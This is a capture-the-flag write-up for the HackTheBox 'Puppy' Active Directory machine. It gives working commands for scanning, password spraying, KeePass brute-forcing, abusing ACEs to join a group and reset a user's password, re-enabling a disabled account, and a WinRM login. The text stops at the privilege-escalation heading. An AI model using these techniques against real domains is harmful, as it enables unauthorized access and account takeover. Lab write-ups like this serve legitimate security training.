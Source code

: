 ```yaml
---
title: HTB - Puppy (Medium)
date: '2025-06-05'
tags: ['machine', 'windows', 'Active Directory', 'GenericAll', 'Shadow-Credentials', 'time-skew', 'ESC16']
draft: false
summary:  Placeholder   
---
```


<TOCInline toc={props.toc} asDisclosure />

> [!NOTE]
> Given Credentials -> `levi.james:KingofAkron2025!`

## Scanning

```
❯ nmap -sV -sC -v -Pn 10.10.11.70

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-06-05 11:25 +08
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 11:25
Completed NSE at 11:25, 0.00s elapsed
Initiating NSE at 11:25
Completed NSE at 11:25, 0.00s elapsed
Initiating NSE at 11:25
Completed NSE at 11:25, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 11:25
Completed Parallel DNS resolution of 1 host. at 11:25, 0.01s elapsed
Initiating Connect Scan at 11:25
Scanning 10.10.11.70 [1000 ports]
Discovered open port 135/tcp on 10.10.11.70
Discovered open port 53/tcp on 10.10.11.70
Discovered open port 139/tcp on 10.10.11.70
Discovered open port 445/tcp on 10.10.11.70
Discovered open port 111/tcp on 10.10.11.70
Discovered open port 636/tcp on 10.10.11.70
Discovered open port 3268/tcp on 10.10.11.70
Discovered open port 3269/tcp on 10.10.11.70
Discovered open port 464/tcp on 10.10.11.70
Discovered open port 3260/tcp on 10.10.11.70
Discovered open port 593/tcp on 10.10.11.70
Discovered open port 2049/tcp on 10.10.11.70
Discovered open port 389/tcp on 10.10.11.70
Discovered open port 88/tcp on 10.10.11.70
Completed Connect Scan at 11:25, 4.55s elapsed (1000 total ports)
Initiating Service scan at 11:25
Scanning 14 services on 10.10.11.70
Completed Service scan at 11:27, 119.33s elapsed (14 services on 1 host)
NSE: Script scanning 10.10.11.70.
Initiating NSE at 11:27
Completed NSE at 11:27, 40.13s elapsed
Initiating NSE at 11:27
Completed NSE at 11:28, 14.97s elapsed
Initiating NSE at 11:28
Completed NSE at 11:28, 0.00s elapsed
Nmap scan report for 10.10.11.70
Host is up (0.023s latency).
Not shown: 986 filtered tcp ports (no-response)
Bug in iscsi-info: no string output.
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-06-05 10:03:57Z)
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
2049/tcp open  nlockmgr      1-4 (RPC #100021)
3260/tcp open  iscsi?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-06-05T10:05:52
|_  start_date: N/A
|_clock-skew: 6h38m38s

NSE: Script Post-scanning.
Initiating NSE at 11:28
Completed NSE at 11:28, 0.00s elapsed
Initiating NSE at 11:28
Completed NSE at 11:28, 0.00s elapsed
Initiating NSE at 11:28
Completed NSE at 11:28, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 179.38 seconds
```

Scanning shows we are dealing with AD. Like always, let's start enumerating SMB with the given credentials

---

## Enumerating

```
❯ nxc smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --shares
❯ nxc smb 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --users
```

![Description](/static/images/htb/windows/puppy/1.jpg)

We can see a few users there, write them down in a file called `users.txt`, we don't have any permission to any of the non-default share.

---

## Bloodhound

With credentials given, we can gain situational awareness by gathering Bloodhound data.

```
❯ nxc ldap 10.10.11.70 -u 'levi.james' -p 'KingofAkron2025!' --dns-server 10.10.11.70 --bloodhound --collection All
```

![Description](/static/images/htb/windows/puppy/2.jpg)

![Description](/static/images/htb/windows/puppy/3.jpg)

Observe `levi.james` has `GenericWrite` ACE over the `Developers` group, we can add him into the group.

```
❯ bloodyAD --host "puppy.htb" -u "levi.james" -p 'KingofAkron2025!' add groupMember "Developers" "levi.james"
```

![Description](/static/images/htb/windows/puppy/4.jpg)

Now we-renumerate

---

## Enumerating part 2

![Description](/static/images/htb/windows/puppy/5.jpg)

`levi.james` now has `READ` access to the `DEV` share. 

![Description](/static/images/htb/windows/puppy/6.jpg)

Connecting to the share, reveals a Keepass Database file. This can easily be bruteforced using an updated tool of [keepass2john](https://github.com/r3nt0n/keepass4brute)

![Description](/static/images/htb/windows/puppy/7.jpg)

Password found. The database itself reveals the credentials of the available users. Save them in a file called `passwords.txt`

![Description](/static/images/htb/windows/puppy/8.jpg)

Spray and Pray

```
❯ nxc smb 10.10.11.70 -u users.txt -p passwords.txt --shares --continue-on-success
```

![Description](/static/images/htb/windows/puppy/9.jpg)

We have a hit on `ant.edwards:Antman2025!`

Continue to enumerate

![Description](/static/images/htb/windows/puppy/11.jpg)

we have `WRITE` access now, but that won't help much. Proceed analysing Bloodhound on the new user

![Description](/static/images/htb/windows/puppy/12.jpg)

Observe that `ant.edwards` is a member of the `Senior Devs` group which has `GenericAll` ACE over `adam.silver`. With this ACE, we can easily change the target's password

```
❯ bloodyAD --host "puppy.htb" -u "ant.edwards" -p 'Antman2025!' set password 'adam.silver' 'Password123!'
```

![Description](/static/images/htb/windows/puppy/13.jpg)

---

## Gaining Access

`adam.silver` is also a part of the WinRM group, we should be able to remotely access his account

![Description](/static/images/htb/windows/puppy/14.jpg)

But, there was a problem. I couldn't `evil-winrm` into his account for some reason. Then I tried enumerating for shares to verify the password change and the
`STATUS_ACCOUNT_DISABLED` error came up. Apparently, we have to activate his account first.

![Description](/static/images/htb/windows/puppy/15.jpg)

> [!TIP]
> https://adminions.ca/books/active-directory-enumeration-and-exploitation/page/bloodyad#bkmrk-enable-a-disabled-ac

Now we enable it

```
❯ bloodyAD --host "puppy.htb" -u "ant.edwards" -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE
```

![Description](/static/images/htb/windows/puppy/16.jpg)

Now, we access his account and get the user flag

```
❯ evil-winrm -i 10.10.11.70 -u adam.silver -p Password123!
```

![Description](/static/images/htb/windows/puppy/17.jpg)

---

## Privilege Escalation













